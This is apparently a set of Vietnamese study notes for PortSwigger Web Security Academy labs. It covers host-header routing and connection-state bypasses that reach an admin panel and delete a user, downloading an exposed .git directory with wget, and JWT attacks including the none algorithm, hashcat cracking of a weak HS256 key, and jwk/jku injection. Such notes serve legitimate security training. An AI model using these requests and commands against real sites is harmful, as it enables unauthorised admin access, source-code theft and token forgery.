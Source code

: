 ```http
GET https://YOUR-LAB-ID.web-security-academy.net/
Host: BURP-COLLABORATOR-SUBDOMAIN
```

Xác nhận thành công, thay `Host` bằng dải IP: `192.168.0.x`

Sau đó truy cập admin

`GET https://YOUR-LAB-ID.web-security-academy.net/admin/delete?csrf=QCT5OmPeAAPnyTKyETt29LszLL7CbPop&username=carlos`

Lấy cookie và chuyển request sang POST để có thể xóa

## Host validation bypass via connection state attack

Kết nối bình thường vào `/admin` với `Host: 192.168.0.1` ta sẽ bị chuyển hướng

Thiết lập 2 request, 1 request bình thường và 1 request vào `admin`

Gom vào 1 group và dùng chế độ `Send group in sequence (single connection)` và đổi `Connection` thành `keep-alive` ở request bình thường

Ta sẽ vào được `/admin` và tiếp tục thực hiện gửi 2 request với request xóa `carlos`

# Information disclosure

`robots.txt`, `/backup`, `.git`, `TRACE` method

Dùng dirsearch

Nếu `git`

`wget -r https://YOUR-LAB-ID.web-security-academy.net/.git/`

Vào file `.git` 

`git log`

`git <hash>` để xem chi tiết thay đổi

# JWT

- Không có bảo vệ, thay thẳng `administrator` vào là có thể access

- none alg: Thay bằng `administrator` và choose "attack" -> "none" Signing algorithm 

- weak symmetric key: 
  ```
  ┌──(kali㉿kali)-[~/Desktop/exam-preparation]
  └─$ hashcat -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt/jwt.secrets.list 

  ┌──(kali㉿kali)-[~/Desktop/exam-preparation]
  └─$ hashcat -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt/jwt.secrets.list --show
  eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0:secret1
  ```
- jwk inject key từ phía client:
- jku header injection
